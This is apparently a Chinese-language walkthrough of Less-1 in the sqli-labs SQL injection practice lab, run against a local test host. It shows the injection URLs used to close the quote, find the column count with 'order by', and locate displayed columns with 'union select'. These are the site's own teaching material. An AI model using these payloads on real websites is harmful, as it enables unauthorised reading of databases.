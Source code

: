 ```
http://centos7-6.local/sqli-labs/Less-1/?id=1' --+
```

> 正常

手动闭合

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and '1
```

> 正常，存在字符型 sql 注入

**判断闭合方式**

提交转义符 `\` 

```
http://centos7-6.local/sqli-labs/Less-1/?id=1\
```

> 报错

查看报错

```
'1\' LIMIT 0,1
```

> `\` 后的 `'` 被转义，无法闭合，闭合符号为 `'`

**判断字段数量**

利用 `order by` 判断

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' order by 4 --+
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段

### 2.1.2. 联合查询

**爆显示位置**

已知有 3 个字段，提交三个字段查看显示位置

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

可以看到只有 2，3 处有回显

![可以看到只有 2，3 处有回显](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E5%8F%AA%E6%9C%89%202%EF%BC%8C3%20%E5%A4%84%E6%9C%89%E5%9B%9E%E6%98%BE.png)
